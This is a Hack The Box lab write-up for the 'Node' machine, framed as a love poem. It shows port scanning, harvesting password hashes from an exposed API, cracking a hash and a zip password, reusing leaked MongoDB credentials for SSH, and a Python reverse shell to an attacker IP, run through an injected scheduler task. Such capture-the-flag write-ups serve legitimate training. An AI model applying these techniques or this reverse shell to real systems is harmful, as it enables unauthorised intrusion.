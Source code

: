 ```yaml
---
layout: post
title:  "Hack the Box - A Love Node"
date:   2018-03-07 16:16:01 -0600
categories: hackthebox nosql webapp reversing mongo mongodb hacking writeup
---
```


<img class="header-img" src="{{ "img/node/home.png" | relative_url }}" />

Node was a special box to me. It was a special box because it was my first "first blood", and it got me truely addicted to [hackthebox](https://hackthebox.eu). In light of this, I'm going mix things up and bit and make the following writeup a love note to Node:

Oh, Node,
it has been some time since we last spoke.
It's been a while since my sweet TCP packets,
probed your open ports.

{% highlight shell %}
root@hack ~# nmap -p- -T4 node.htb
3000/tcp    open  
{% endhighlight %}

You rebuffed my attempts on 80. On 8080, 443, and more.
But you invited me into your space, into yourplace, into port 3000.
Yes, you did.

I dug into your deepest secrets.
And into the APIs which b(urp)equeathed your user sequence.
I saw you clearly, inside and out; cut through your defences:
turned `/api/users/latest` to `/api/users` and saw your shy response:

{% highlight shell %}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 611
ETag: W/"263-mJMXKDfX6c4pdWF3bLjHuBIvsM0"
Date: Wed, 07 Mar 2018 13:51:16 GMT
Connection: close

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
{% endhighlight %}

Were these your past lovers? I cared not.
But an `admin` flag, is an `admin` flag, and must be followed. Its hash looked weak.
Indeed, it was. ["manchester"](https://crackstation.net).

With each keystroke, we grew closer
m.y.P.1.4.c.e.A.d.m.1.n.A.c.c.0.u.N.T.
m.a.n.c.h.e.s.t.e.r.

You offered me your memories encoded in mystery. I was undeterred.

{% highlight shell %}
root@hack ~/Downloads# base64 -d myplace.backup > myplace.what
root@hack ~/Downloads# file myplace.what
myplace.what: Zip archive data, at least v1.0 to extract
{% endhighlight %}

But still, you resisted me.

{% highlight shell %}
root@hack ~/Downloads# unzip myplace.what
Archive:  myplace.what
  creating: var/www/myplace
[myplace.what] var/www/myplace/package-lock.json password:
{% endhighlight %}

{% highlight shell %}
root@hack ~/Downloads# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace.what
PASSWORD FOUND!!!!: pw == magicword
root@hack ~/Downloads# unzip -P magicword myplace.what
rock@hack ~/Downloads# head -n 11 var/www/myplace/app.js | tail -n 1
const url        = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
{% endhighlight %}

Who was this `mark`?" I wondered. What boundries had you let him pass?
Nevermind. I had his secret, and he made a mistake, leaving this behind.

{% highlight shell %}
root@hack ~# ssh mark@node.htb
mark@node ~$
{% endhighlight %}

Node. My sweet Node. I felt so close to you. 
We were separated by miles and miles, but I could feel your circuits responding to my touch.
I explored every inch of you, and found a special spot:

{% highlight shell %}
root@hack ~# ps aux
...
tom     1426    0.0 5.1 1009080 31096   ?   ?   Ssl Mar04   0:31    /usr/bin/node /var/scheduler/app.js
...
mark@node:~$ cat /var/scheduler/app.js
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
{% endhighlight %}

You accepted me, and I inserted my hopes and dreams....

{% highlight shell %}
mark@node ~$ cat << EOM > /tmp/over.py
> import socket,subprocess,os
> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
> s.connect(('10.10.14.22',4444))
> os.dup2(s.fileno(),0)
> os.dup2(s.fileno(),1)
> os.dup2(s.fileno(),2)
> p=subprocess.call(['/bin/sh','-i'])
> EOM
mark@node ~$ mongo
> use scheduler
switched to db scheduler
> db.auth("mark","5AYRft73VtFpc84k")
1
> db.tasks.insert({"_id": 1, "cmd":"python /tmp/over.py"})
WriteResult({ "nInserted" : 1 })
{% endhighlight %}

...and I tasted your luscious blood. 

{% highlight shell %}
root@hack ~# nc -lvvvp 4444
$ whomai
tom
{% endhighlight %}

You still had more secrets to find, like `/usr/local/bin/backup`.
In reversing it, I `unzip`ed your last garment -
unveiling your inner soul, `root.txt`, in whole.
You were so beautiful, so clever, and so true.
How I loved your mysteries -- unfortunately, there were more boxes to do.

your dearest,
overcast

p.s. if you'd like to know how `/usr/local/bin/backup` fell to my wiles,
look to `ltrace` 


_fin_

